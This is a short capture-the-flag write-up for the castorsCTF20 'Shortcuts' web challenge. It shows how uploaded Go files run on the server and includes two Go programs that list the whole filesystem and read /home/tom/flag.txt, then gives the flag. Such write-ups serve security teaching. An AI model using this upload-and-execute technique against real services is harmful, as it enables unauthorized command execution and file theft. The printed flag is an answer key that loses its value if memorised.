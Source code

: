 ```yaml
---
type: "post"
title: "Shortcuts"
author: "tozkoparan (Ahmed Selim Üzüm)"
tags: ["writeup", "web", "castorsCTF20"]
---
```


First, let's try to upload a go file.
```
exit status 1Sorry there doesn't seem to be a cat.go.go file
```
So it means we need to remove .go extension? Let's upload another one without extension.
Yep! It worked. But for that there needs to be one with extension and one without.

So if we can execute go file let's execute `ls -Rla` with go and find the interesting files.
```go
package main

import (
	"fmt"
	"os/exec"
)
func main() {
    cmd :=  exec.Command("/bin/ls", "-lahR", "/")
    stdout, err := cmd.Output()
    if err != nil {
        fmt.Println(err.Error())
    }
    fmt.Println(string(stdout))

}
```

We found the flag location! Let's print it

```go
package main

import (
	"fmt"
	"os/exec"
)
func main() {
    cmd :=  exec.Command("cat", "/home/tom/flag.txt")
    stdout, err := cmd.Output()
    if err != nil {
        fmt.Println(err.Error())
    }
    fmt.Println(string(stdout))

}
```

**Flag:** `castorsCTF{4_g00d_4tT1tUd3_Wil7_tk3_u_fuRtheR_Th4n_a_b44d_h}`
